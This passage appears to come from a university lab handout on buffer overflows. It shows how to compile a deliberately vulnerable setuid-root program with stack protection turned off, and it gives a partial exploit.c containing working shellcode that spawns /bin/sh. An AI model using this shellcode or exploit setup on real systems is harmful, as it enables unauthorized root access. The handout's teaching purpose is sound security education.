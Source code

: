 \begin{verbatim}
  $ sudo su
  # gcc -m32 -o stack -z execstack -fno-stack-protector stack.c
  # chmod 4755 stack
  # exit  
\end{verbatim}



The above program has a buffer overflow vulnerability. It first 
reads an input from a file called ``badfile'', and then passes this
input to another buffer in the function {\tt bof()}. The 
original input can have a maximum length of 517 bytes, but the buffer
in {\tt bof()} has only 12 bytes long. Because {\tt strcpy()} does not check
boundaries, buffer overflow will occur.
Since this program is a set-root-uid program, if a normal user can exploit
this buffer overflow vulnerability, the normal user might be 
able to get a root shell.
It should be noted that 
the program gets its input from a file called ``badfile''. This file
is under users' control. Now, our objective is to 
create the contents for ``badfile'', such that when the vulnerable program
copies the contents into its buffer, a root shell can be spawned.



\subsection{Task 1: Exploiting the Vulnerability} 

We provide you with a partially completed exploit code called 
``exploit.c''. The goal of this code is to construct contents 
for ``badfile''. In this code, the shellcode is given to you. 
You need to develop the rest. 


\begin{verbatim}
/* exploit.c  */

/* A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
char shellcode[]=
    "\x31\xc0"             /* xorl    %eax,%eax              */
    "\x50"                 /* pushl   %eax                   */
    "\x68""//sh"           /* pushl   $0x68732f2f            */
    "\x68""/bin"           /* pushl   $0x6e69622f            */
    "\x89\xe3"             /* movl    %esp,%ebx              */
    "\x50"                 /* pushl   %eax                   */
    "\x53"                 /* pushl   %ebx                   */
    "\x89\xe1"             /* movl    %esp,%ecx              */
    "\x99"                 /* cdq                            */
    "\xb0\x0b"             /* movb    $0x0b,%al              */
    "\xcd\x80"             /* int     $0x80                  */
;

void main(int argc, char **argv)
{
    char buffer[517];
    FILE *badfile;

    /* Initialize buffer with 0x90 (NOP instruction) */
    memset(&buffer, 0x90, 517);

    /* You need to fill the buffer with appropriate contents here */ 

    /* Save the contents to the file "badfile" */
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}

\end{verbatim}

